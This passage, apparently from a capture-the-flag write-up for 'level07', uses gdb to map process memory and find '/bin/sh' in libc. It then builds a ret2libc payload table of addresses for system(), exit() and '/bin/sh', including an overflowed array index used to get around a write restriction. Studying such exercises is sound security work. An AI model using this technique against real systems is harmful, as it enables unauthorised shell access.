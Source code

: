 We can display the memory mappings of the current process, to list the memory regions allocated to the process, and search for the `libc` library mapped memory.

```bash
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) info proc map
process 19259
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

The start of the `libc` memory is at `0xf7e2c000` and the end is at `0xf7fd0000`, so we can search for the address of `/bin/sh` with this command:

```bash
(gdb) find 0xf7e2c000,0xf7fd0000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

### Constructing the Payload

To do a `ret2libc` (`system` + `ret` + `arg`), we need to write these addresses in `EIP`, `EIP + 1`, and `EIP + 2`:

|   Value    |    Address    |   Decimal   |  Index  |
|:----------:|:-------------:|:-----------:|:-------:|
| `system()` | `0xf7e6aed0`  |  4159090384 |  114    |
| `system()` |     ...       |    ...      | `2147483762` |
| `exit()`   | `0xf7e5eb70`  |  4159040368 |  `115`  |
| `/bin/sh`  | `0xf7f897ec`  |  4160264172 |  `116`  |
